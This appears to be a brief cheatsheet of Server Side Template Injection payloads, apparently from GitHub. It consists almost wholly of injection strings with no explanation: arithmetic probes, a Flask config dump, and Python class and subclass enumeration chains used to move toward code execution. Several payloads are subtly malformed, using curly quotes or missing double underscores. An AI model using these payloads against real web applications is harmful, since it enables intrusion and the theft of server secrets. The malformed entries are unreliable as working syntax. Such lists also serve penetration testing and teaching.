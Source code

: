 # SSTI - Server Side Template Injection

![image](https://github.com/zer00d4y/cheatsheets/assets/128820441/c2588b94-23b3-427f-8117-73e98f478881)


`{{7*7}}`

`{{7*'7'}}`

`{{'7'*7}}`

`{{config.items()}}`

`{{config.from_object(‘os’)}}`

`{{‘’.__class__.__mro__[1].__subclasses__()[284:]}}`

`a{*comment*}b`

`${"z".join("ab")}`

`{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}`

`{{''.class.mro()[1].subclasses()}}`

`{{[].class.base.subclasses()}} `
